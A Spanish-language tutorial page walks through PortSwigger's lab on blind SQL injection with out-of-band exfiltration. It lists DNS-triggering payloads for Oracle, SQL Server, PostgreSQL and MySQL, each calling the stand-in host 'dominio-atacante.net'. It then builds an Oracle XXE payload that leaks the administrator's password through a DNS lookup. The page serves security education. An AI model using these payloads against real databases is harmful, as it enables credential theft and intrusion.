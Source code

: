 ```yaml
---
layout: default
title: Ejercicio práctico
permalink: /injection_types/blind/oob_type/oob_exercise
nav_order: 1
parent: 4.4 Fuera de banda
grand_parent: 4. Inyecciones ciegas
---
```


# Ejercicio práctico de inyección fuera de banda

> Ejercicio basado en el laboratorio "Lab: Blind SQL injection with out-of-band data exfiltration" de Web Security Academy (PortSwigger).

## Consigna

Este laboratorio contiene una vulnerabilidad de inyección de SQL ciega. La aplicación usa una cookie de rastreo (*tracking*) para análisis y ejecuta una consulta SQL con el valor de esta cookie. 

Sin embargo, las consultas se ejecutan de forma asincrónica y no tienen ningún efecto en la respuesta de la aplicación. Por lo que, se debe probar extraer la información mediante otro canal.

La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`.

Para resolver el laboratorio, obtener el usuario y contraseña del usuario `administrator` e iniciar sesión con estas credenciales.

## Resolución con Burp Collaborator

Para la resolución de este laboratorio se utilizará el servidor de **Burp Collaborator** el cual está publicado a Internet y puede funcionar como canal para recibir la información. Si bien existen herramientas alternativas gratuitas, el laboratorio está configurado para únicamente comunicarse con dominios asociados a PortSwigger.

La consigna menciona que no es posible observar cambios de comportamiento sobre la aplicación, por lo que todas las pruebas deben apoyarse directamente en el servidor auxiliar externo. Para ello, acceder a la pestaña `Collaborator` (solo disponible para *Burp Suite Professional*).

![Collaborator](/sqli-en-la-practica/assets/oob_ex_1.png)

Al presionar `Copy to clipboard` automáticamente se obtiene un **subdominio único** el cual se puede usar como canal para visualizar las respuestas DNS y HTTP del servidor de *Collaborator*.

Para identificar el DBMS y qué *payload* es válido, es pertinente probar los diferentes métodos mencionados en la [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) y así forzar una consulta DNS:

- **Oracle**: 
	```sql
	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://dominio-atacante.net/">
	 %remote;]>'),'/l') FROM dual
	```
	```sql
	SELECT UTL_INADDR.get_host_address('dominio-atacante.net')
	```
- **Microsoft**:
	```sql
	exec master..xp_dirtree '//dominio-atacante.net'`
	```
- **PostgreSQL**:
	```sql
	COPY (SELECT '') TO program 'nslookup dominio-atacante.net'`
	```
- **MySQL**:
	```sql
	LOAD_FILE('\\\\dominio-atacante.net\a')`  
	```
	```sql
	SELECT ... INTO OUTFILE '\\\\dominio-atacante.net\a'`
	```

Una consulta exitosa generaría una resolución DNS sobre el dominio utilizado, esto sería visualizado de la siguiente manera en la sección `Collaborator`:

![Collaborator 2](/sqli-en-la-practica/assets/oob_ex_2.png)

La exitosa es la de Oracle con XML. Habiendo identificado el DBMS, sumado a los datos facilitados en la consigna, solo resta construir la consulta mediante la cual se extraerá la información. La técnica exitosa aprovecha una entidad externa XML (XXE) para activar una búsqueda de DNS. No está dentro del alcance de esta documentación explicar por qué funciona (se recomienda ver el [módulo XXE de la Web Security Academy](https://portswigger.net/web-security/xxe)). Lo importante es entender la posición de inyección y que la URL del *payload* debe ser reemplazada por la que provee *Burp Collaborator*. Con el siguiente fragmento simplificado de inyección:

```sql
SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [ <!ENTITY % remote SYSTEM 
	"http://'||(SELECT YOUR-QUERY-HERE)||'.dominio-atacante.net/"> 
	%remote;]>'),'/l') FROM dual
```

**se inserta como subdominio** el resultado de una consulta arbitraria. Por ejemplo, si la consulta fuera `SELECT 'jeje'`, el DBMS intentaría resolver el subdominio `jeje.dominio-atacante.net`. Por lo tanto, para obtener la contraseña del administrador, se inserta `SELECT password FROM users WHERE username='administrator'`. Finalmente, consulta final es:

```sql
SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [ <!ENTITY % remote SYSTEM 
	"http://'||(SELECT password FROM users WHERE username='administrator')
	||'.dominio-atacante.net/"> %remote;]>'),'/l') FROM dual
```

Suplantar el valor de la cookie con el payload final de inyección resulta en el siguiente pedido HTTP:

![Repeater](/sqli-en-la-practica/assets/oob_ex_3.jpeg)

Notar que se utiliza un dominio de *Burp Collaborator* (`oastify.com`), y que los caracteres `%` y `;` fueron reemplazados por `%25` y `%3b` respectivamente. Estas son sus codificaciones para URL y son necesarias para no generar conflicto con la interpretación/*parsing* de la cookie. Observando la respuesta en el historial de la pestaña `Collaborator`:

![Collaborator 3](/sqli-en-la-practica/assets/oob_ex_4.png)

se aprecia la contraseña de la consulta inyectada como subdominio en la solicitud DNS.
